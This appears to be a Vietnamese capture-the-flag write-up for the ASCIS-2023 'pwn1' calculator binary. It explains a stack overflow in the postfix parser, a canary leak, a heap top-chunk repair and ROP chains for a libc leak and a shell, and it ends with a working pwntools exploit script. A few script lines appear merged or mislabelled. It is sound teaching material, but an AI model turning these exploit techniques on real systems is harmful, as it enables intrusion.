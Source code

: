 # pwn1

- Password: ASCIS2023

> Quals ASCIS-2023

## [0]. Analysis Challenge

- Kiểm tra các thông tin cơ bản của file binary, có vài điểm cần lưu ý đó là file đã bị stripped nên tên các hàm đã bị xóa khỏi file thực thi và stack có canary (điều này sẽ làm quá trình khai thác khó hơn).

![checksec.png](./images/checksec.png)

- Chương trình cho phép người dùng nhập các biểu thức tính toán và in kết quả ra màn hình.

![run.png](./images/run.png)

- Hàm `main()` chạy logic `while loop` đọc chuỗi ký tự vào biến `buf[152]`, sau đó gọi hàm `fn_handle_expression()` [hàm gốc là `sub_400E91()`] để xử lý biến `buf[152]`.

![1.png](./images/1.png)

![2.png](./images/2.png)

- Hàm `fn_handle_expression()` với 1 đối số là mảng `buf[152]` thực hiện ba nhiệm vụ chính sau:

  - `1.` Đầu tiên là cấp phát 1 vùng nhớ trong heap, ngay sau đó là nó sẽ parse dữ liệu từ mảng `char buf[152]` sang mảng `__int64 v8[24]` trên stack.
  - `2.` Tiếp theo là chương trình sẽ thực hiện logic `while do` để chuyển đổi biểu thức lưu ở `__int64 v8[24]` sau bước 1 về dạng biểu thức hậu tố - `postfix` và lưu vào chính mảng `__int64 v8[24]`.
  - `3.` Cuối cùng là gọi hàm tính toán `fn_eval_400D18()` và in kết quả ra màn hình.

- Chương trình còn có 1 structure hoạt động như `stack` (`heap_stck`), được cấp phát ở vùng nhớ heap tại bước 1, có nhiệm vụ lưu các toán tử trong quá trình chuyển sang `postfix` và phục vụ tính toán trong hàm `fn_eval_400D18()`.

> Bug

- Lỗ hổng nằm ở bước 2 trong luồng thực thi của hàm `fn_handle_expression()` khi chương trình parse giá trị từ mảng `char buf[152]` sang mảng `__int64 v8[24]` không có giới hạn về số lượng ký tự mà còn mỗi ký tự của `char buf[152]` VD như `1` sẽ chuyển vào thành 1 phần tử chiếm `__int64`, điều này dẫn đến stack-bufferoverflow. Tham khảo hai ảnh VD dưới đây để hiểu hơn lỗ hổng:

![3.png](./images/3.png)

![4.png](./images/4.png)

- Ví dụ về biến đổi biểu thước về dạng biểu thức hậu tố:
  - Biểu thức hậu tố là cách lưu trữ biểu thức ban đầu để máy tính tính toán thuận lợi hơn theo quy tắc một toán tử sẽ đi kèm ngay sau hai toán hạng. Với biểu thức `a+b*c+d`, dạng biểu thức hậu tố của nó sẽ là `abc*+d+`. Thứ tự thực hiện phép tính sẽ như sau: Tính `e = b*c`, biểu thức mới có dạng `ae+d+`.

## [1]. Solve Idea

### I. Leak Stack Canary

- Để leak được canary người chơi cần cung cấp 1 biểu thức sao cho giá trị của canary được thêm vào biểu thức cần tính toán và in ra màn hình, cần phải căn chỉnh layout stack sao cho canary nằm đúng vị trí ban đầu sau khi chuyển sang dạng postfix.

- Dùng biểu thức `1+1+1+...+1+41` với ý tưởng sau: `41` là mã ascii của kí tự `(`, khi chương trình kiểm tra không phân biệt được chữ số thực sự và kí tự toán tử nên pop 1 toán tử ra và đẩy canary về đúng vị trí.

![5.png](./images/5.png)

- Sau khi biến đổi biểu thức hậu tố (postfix):

![6.png](./images/6.png)

### II. Leak LIBC address

- Sau khi có `canary` tôi khôi phục nó ở lần nhập biểu thức tiếp theo, sau đó `overflow` địa chỉ trả về và build 1 cái `ROP chain` để gọi `puts(printf@GOT)`.

- Tôi làm các `gadgets` nằm sát nhau theo quy tắc của biểu thức `postfix` bằng cách xây dựng biểu thức kiểu `<pad>+(gadget_1+(gadget_2+(gadget_3` và in địa chỉ `printf` ra màn hình xong thì trả về `main`.

- `Vấn đề 1`: Sau khi gọi `main()` lần thứ 2, tôi gặp một vấn đề khác. Trong hàm `eval()`, chương trình chỉ cấp phát `0x8` bytes cho `heap_stack` (được làm tròn thành `0x20` trong bộ nhớ).

  - Cho nên khi các toán tử được `push` vào `stack`, gây tràn `heap` và ghi đè `size` của `top chunk`, dẫn đến lỗi `corrupted top size` khi gọi `malloc` và ngắt chương trình.
  - Để khắc phục lỗi này tôi cần phải khôi phục lại `top chunk size` bị ghi đè.
    ![7.png](./images/7.png)

- `Vấn đề 2`: Phần này gây cho tôi rất nhiều khó khăn vì nếu nhập một biểu thức quá nhiều toán tử và toán hạng, cấu trúc stack `__int64 v8[24]` trong `fn_handle_expression()` sẽ tràn đến chuỗi biểu thức `char buf[152]` trong `main()` khi hàm `fn_parse()` đang thực thi. Việc này làm `fn_parse()` không thể tiếp tục trích xuất biểu thức và ngắt chương trình.

  - Trước khi `parse` chạy:
    ![8.png](./images/8.png)

  - Sau khi biểu thức bị ghi đè, không thể tiếp tục trích xuất biểu thức:
    ![9.png](./images/9.png)

- Sau khi thử nhiều cách khác nhau, tôi `bypass` được phần này với payload như sau:

```python
<padding>+(canary+(pad+(top_size+(pad+(pop_rdi+(printf_got+\x00\x00\x00 + p64(puts_plt) + p64(main)
```

- Theo quy tắc khi parse biểu thức thành dạng biểu thức hậu tố - `postfix`, các ô nhớ phía sau không thuộc biểu thức được đẩy về phía trước và các toán tử được dồn về sau.

- Khi nhập payload như trên, biểu thức kết thúc ở `"printf_got+"` và `2 gadget` cuối cùng được ghi thẳng vào bộ nhớ (`buffer` trong `main`). Chuổi biểu thức và `2 gadget` được căn chỉnh sao cho đúng với `layout stack` và nằm kế nhau khi chuyển sang dạng biểu thức `postfix`.

- Làm như vậy tôi có thể thêm `gadget` vào `ROPchain` mà không phải lo chuổi biểu thức bị ghi đè.

### III. Get Shell

- Sau khi xử lý dược 2 vấn đề ở trên, tôi có thể gọi `system('/bin/sh')` để lấy shell.

- Full script exploit: [exp.py](./exp.py)

- Script exploit khác có thể tham khảo:

```python
from pwn import *
import sys
elf = context.binary = ELF('pwn2')
libc = ELF('libc.so.6')
#nc 172.188.64.101 1337
p = remote('172.16.0.250', sys.argv[1])
#p = process()
#gdb.attach(p, gdbscript='''#       b *0x400d18
#           b *0x4011db#               c
#           ''')
POP_RSI_R15 = 0x0000000000401341 #: pop rsi ; pop r15 ; retCALL_REGS = 0x401320
POP_RBX_RBP_R12_R13_R14_R15 = 0x40133a
MOV_PRDX_RAX = 0x00000000004008f3 #: mov qword ptr [rdx], rax ; nop ; pop rbp ; ret
POP4 = 0x40133c
MAIN = 0X40121f

# leak canary
p.sendline(b'(10000000+10000000+10000000+10000000+10000000+10000000+10000000+10000000+10000000+10000000)+')
recv = p.recvline()[:-1].decode()
print(recv)
if recv[0] == '-':
    recv = recv[1:]
    print(recv)
canary = int(recv)
log.info(f'canary: {hex(canary)}')

# leak libc
RET = 0x0000000000400646
BSS = 0x602500
LEAVE = 0x0000000000400836
LOOP = 0X400E91
rop = ROP(elf)
rop.raw(RET)
rop.printf(elf.got['printf'])
raw_rop = rop.chain()
payload = b'1+1+1+1+1+1+1+1+1+1+1+'
payload += str(canary).encode()
payload += b'+1+'
payload += str(POP_RBX_RBP_R12_R13_R14_R15).encode()
payload += b'+' + str(elf.got['exit'] + 0xa0).encode()
payload += b'+0'
payload += b'+' + str(POP4).encode()
payload += b'\x00'*(8 - (len(payload) % 8))
payload += raw_rop
payload += p64(RET)
payload += p64(MAIN)
print('len: ', hex(len(payload)))
print(payload)
p.sendline(payload)
p.recvline()
leak = p.recv(8)
leak = int.from_bytes(leak, byteorder='little')
print('leak: ', hex(leak))
libc.address = leak - libc.symbols['printf']
print('libc: ', hex(libc.address))
roplibc = ROP(libc)
roplibc.system(next(libc.search(b'/bin/sh')))

# get shell
payload = b'1+1+1+1+1+1+1+1+1+1+1+'
payload += str(canary).encode()
payload += b'+1+'
payload += str(POP_RBX_RBP_R12_R13_R14_R15).encode()
payload += b'+' + str(elf.got['exit'] + 0xa0).encode()
payload += b'+0'
payload += b'+' + str(POP4).encode()
payload += b'\x00'*(8 - (len(payload) % 8))
payload += p64(RET)
payload += roplibc.chain()
p.sendline(payload)
p.sendline(b'cat /home/pwn2/flag.txt')
p.interactive()
```

## [2]. References

- https://gossamer-drill-b15.notion.site/Pwn4-87fcde5215fe447691dfa32360d4e606
